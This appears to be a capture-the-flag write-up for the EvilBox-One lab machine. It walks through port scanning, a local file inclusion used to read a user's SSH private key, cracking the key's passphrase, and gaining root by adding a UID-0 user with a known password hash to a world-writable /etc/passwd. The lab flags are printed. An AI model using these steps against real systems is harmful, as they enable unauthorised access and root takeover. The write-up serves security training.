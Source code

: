 ```yaml
---
title: EvilBox-One
categories: [Proving Grounds, Play]
tags: [LFI, PrivEsc, passwd]
image:
  path: https://i0.wp.com/pentestguy.com/wp-content/uploads/2023/07/evilbox-one-vulnhub-ctf-walkthrough-pentestguy.png?fit=1080%2C720&ssl=1
  width: "1200"
  height: "630"
  alt:  EvilBox-One Machine 🖥️
---
```




### Lets find out the IP of this Machine First ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled.png)

```bash
IP : 10.10.2.51
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/EvilBox-One]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.51
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 16:54 IST
Nmap scan report for 10.0.2.51
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:94:F8:26 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%201.png)

Now lets see the Directory Listing files —>

```bash
feroxbuster -u https://10.0.2.51:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,js
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%202.png)

Now lets look at `/secret/evil.php` file —>

Since it is blank I think this url is vulnerable to path traversal attack , but for that I need a parameter on which basis I am gona search the `/etc/passwd` file —>   

Lets use burpsuite for that —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%203.png)

parameter fuzzing list ⤵️

[https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt](https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt)

Lets see the result on web —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%204.png)

Now I know user mowree so lets access for ssh private key through `/home/mowree/.ssh/id_rsa` →

[http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa](https://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%205.png)

Lets get this file and decode its paraphrase value through john-the-ripper tool →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%207.png)

so the paraphrase for ssh login is : `unicorn`

Now its time for ssh login →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%208.png)

Lets check what we got here →

```bash
mowree@EvilBoxOne:~$ ls -al
total 32
drwxr-xr-x 4 mowree mowree 4096 ago 16  2021 .
drwxr-xr-x 3 root   root   4096 ago 16  2021 ..
lrwxrwxrwx 1 root   root      9 ago 16  2021 .bash_history -> /dev/null
-rwxr-xr-x 1 mowree mowree  220 ago 16  2021 .bash_logout
-rwxr-xr-x 1 mowree mowree 3526 ago 16  2021 .bashrc
drwxr-xr-x 3 mowree mowree 4096 ago 16  2021 .local
-rwxr-xr-x 1 mowree mowree  807 ago 16  2021 .profile
drwxr-xr-x 2 mowree mowree 4096 ago 16  2021 .ssh
-r-------- 1 mowree mowree   31 ago 16  2021 user.txt
mowree@EvilBoxOne:~$ cat user.txt 
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
mowree@EvilBoxOne:~$
```
{: .nolineno}

Now lets see some file permissions and looks like I got something interesting →

```bash
mowree@EvilBoxOne:/var/backups$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
```
{: .nolineno}

Now I have the permission to write so lets add a user name as `shiv` and `password` as password with root privileges.

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```
{: .nolineno}

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```
{: .nolineno}

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%209.png)

Now lets switch to shiv user —>

```bash
mowree@EvilBoxOne:~$ su shiv
Contraseña: 
root@EvilBoxOne:/home/mowree# whoami
root
root@EvilBoxOne:/home/mowree# cd ~
root@EvilBoxOne:~# ls -al
total 24
drwx------  3 root root 4096 ago 16  2021 .
drwxr-xr-x 18 root root 4096 ago 16  2021 ..
lrwxrwxrwx  1 root root    9 ago 16  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 ago 16  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 16  2021 .local
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-r--------  1 root root   31 ago 16  2021 root.txt
root@EvilBoxOne:~# cat root.txt 
36QtXfdJWvdC0VavlPIApUbDlqTsBM
root@EvilBoxOne:~#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }